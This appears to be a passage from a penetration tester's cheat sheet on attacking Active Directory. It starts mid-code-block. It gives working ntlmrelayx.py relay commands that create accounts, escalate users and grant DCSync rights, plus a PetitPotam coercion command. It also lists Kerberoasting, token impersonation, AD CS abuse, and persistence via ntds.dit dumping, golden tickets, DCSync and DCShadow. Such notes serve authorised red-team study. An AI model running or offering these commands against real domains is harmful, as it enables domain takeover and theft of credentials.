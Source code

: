 	# weaponizing
	sudo ntlmrelayx.py -t ldap://dc2-domain.com --delegate-acess

	# PoC
	sudo python3 Petitpotam.py attacker-ip dc-ip
```
19. [AD CS (Certificate Services)](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/), exploitation in [[pki-abuse]]
20. Token Impersonation with rubeus
21. Kerberoasting

## Persistence
1. ntds.dit file using secretdump.py
2. Golden ticket
3. [DCSync attacks](https://adsecurity.org/?p=1729)
4. [DCShadown](https://blog.alsid.eu/dcshadow-explained-4510f52fc19d)

## Credential relay

`ntlmrelayx.py` [flags](https://bsidescyprus.com/presentations/bsidesCyprus_DropTheMIC.pdf)

![](/assets/20210727172214.png)

Create domain user and gives DCSync rights
`ntlmrelayx.py -t ldaps://dc1-domain.com --delegate-acess -smb2support --remove-mic`

Create a domain computer account
`ntlmrelayx.py -t ldaps://dc1-domain.com --add-computer -smb2support --remove-mic`

Gives DCSync rights to an existing domain user / computer
`ntlmrelayx.py -t ldaps://dc1-domain.com --escalate-user lowuser/computer -smb2support --remove-mic`


## Aditional info

- [Abusing printers](https://boschko.ca/printer-to-domain-admin/)